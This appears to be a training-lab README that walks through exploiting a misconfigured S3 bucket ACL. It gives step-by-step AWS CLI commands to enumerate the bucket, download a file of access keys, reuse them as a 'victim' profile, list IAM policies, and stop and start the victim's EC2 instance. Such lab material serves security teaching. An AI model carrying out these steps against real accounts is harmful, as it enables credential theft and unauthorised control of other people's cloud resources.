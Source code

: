 # ACL Authenticated group 


* Clone the repository 

```bash
git clone https://github.com/bvabhishek/misconfigured_acl.git
```
* Go to Directory 

```bash
 cd misconfigured_acl/
```
* change the permission of bucket_finder tool
```bash
chmod 777 bucket_finder.rb
```
* Lets use the bucket_finder tool to check our target bucket exist or not

```bash
./bucket_finder.rb my_words
```

* Go to the target URL and check if there is any attack scenario

    * https://vallabh.s3-us-west-2.amazonaws.com/

* Let's make the s3 bucket name as gloabal variable as we need to use it again

```bash
export s3bucket=<bucketname>
```
```bash
echo $s3bucket
```

* Let's try enumerating the S3 bucket by listing the object

```bash
aws s3 ls s3://$s3bucket

```

* Now lets try accessing it though our AWS profile (your own)

* if you havent configured your profile follow the below steps

```bash
aws configure --profile #your_profile_name
```

* Now try listing thew objects

```bash
aws s3 ls s3://$s3bucket --profile your_profile_name
```

* Fish around the bucket 

```bash
aws s3 ls s3://$s3bucket/etc/ --profile your_profile_name
```

* Download the juicy file (Relative path to your present working directory)

```bash
aws s3 cp s3://vallabh/etc/user.csv /home/we45-abhi/seasides/bucket_finder/ --profile your_profile_name
```
//use sync 

* cat the csv file 

* configure the access key id and secret access key as attacker profile 

```bash
aws configure --profile victim

```
* Now check if you can access if any S3 objects present by using aws cli

```bash
aws s3 ls --profile victim
```

// abhi add ec2 full and iam readonly 

* Check the user profile 

```bash
aws sts get-caller-identity --profile victim
```
* lets try to pull out any s3 files

```bash
aws s3 ls --profile victim
```

* Now lets check the user policies attached to the user if any, to figure out which all resources he might have

```bash
aws iam list-attached-user-policies --user-name victim --profile victim
```

* we came to know that he has ec2 access, now check if any running ec2 instance

* lets check if any running ec2 instance 

```bash

aws ec2 describe-instances --profile victim --region us-west-2
```

* lets export the instance id i-083b2833c663866d1

```bash
export iId=<instance id>
```
```bash
echo $iId
```

* Copy the Public IP address and paste in browser

```bash
aws ec2 describe-instances --instance-ids $iId --region us-west-2 --query 'Reservations[0].Instances[0].PublicIpAddress' --output text --profile victim

```
* Open new terminal 

* Lets stop the instance 

```bash
aws ec2 stop-instances --instance-id $iId --profile victim --region us-west-2

```
// after a minute start the instance
* Lets stop the instance 

```bash
aws ec2 start-instances --instance-id $iId --profile victim --region us-west-2

```

* To check where may be the misconfiguration 
```bash
aws s3api get-bucket-acl --bucket $s3bucket --profile victim
```

* Another misconfiguration is providing excess policy such as "IAMReadOnlyAccess"

```bash 
aws iam list-attached-user-policies --user-name victim --profile victim
```

